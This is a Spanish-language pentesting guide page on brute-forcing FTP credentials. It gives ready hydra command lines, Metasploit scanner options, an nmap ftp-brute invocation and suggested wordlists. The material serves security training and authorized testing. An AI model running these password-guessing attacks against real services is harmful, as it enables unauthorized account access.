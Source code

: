 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio FTP
coverY: 0
---
```


# FTP

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio FTP, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```
hydra -l user -P passwords.txt ftp://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio FTP no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt ftp://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```
hydra -L users.txt -p Password123 ftp://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minuscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasandole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```
hydra -L users.txt -P passwords.txt ftp://127.0.0.1 -t 15
```

{% hint style="info" %}
El con el parámetro`-t` le indicamos el número de hilos que queremos emplear
{% endhint %}

### Metasploit

Para esto, usaremos el modulo "FTP Authentication Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

### Nmap

Podemos usar nmap para hacer una pequeña fuerza bruta al servicio FTP. En este caso, usaremos el script "`ftp-brute`" pasándole como argumentos el diccionario de usuarios:

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p 21 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
